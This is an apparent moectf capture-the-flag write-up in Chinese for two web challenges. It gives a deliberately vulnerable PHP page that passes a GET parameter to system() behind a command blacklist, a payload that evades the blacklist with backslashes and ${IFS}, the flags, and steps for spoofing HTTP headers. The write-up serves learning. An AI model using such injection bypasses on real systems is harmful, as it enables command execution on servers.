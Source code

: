 7. baberce

   ``` php
   <?php
   
   $rce = $_GET['rce'];
   if (isset($rce)) {
       if (!preg_match("/cat|more|less|head|tac|tail|nl|od|vi|vim|sort|flag| |\;|[0-9]|\*|\`|\%|\>|\<|\'|\"/i", $rce)) {
           system($rce);
       }else {
           echo "hhhhhhacker!!!"."\n";
       }
   } else {
       highlight_file(__FILE__);
   }
   ```

   playload:?rce=c\at${IFS}f\lag.php

   flagmoectf{Do_y0u_l1k3_Rcccccccccccccce?}

8. Do you know HTTP?

   > 检查一下你的学习成果吧
   >
   > 仅仅学习了HTTP请求头相关内容，你可能会发现浏览器已经不足以让你便利的去解决问题了，试试burpsuite！

  抓包！

       1. 用HS请求 改POST为HS
       2. 用本地ip地址才能访问：X-Forwarded-For:127.0.0.1
       3. “我希望你是从'www.ltyyds.com'过来的：伪造来源网址
       4. 浏览器是LT,改！user-agent
       5. 出flag！moectf{HTTPHeaders_1s_s0_ea5y!}

## 问卷题

你看现在哪里还有烂分啊，全都是问卷题的烂分，你嫌烂我还嫌烂呢（
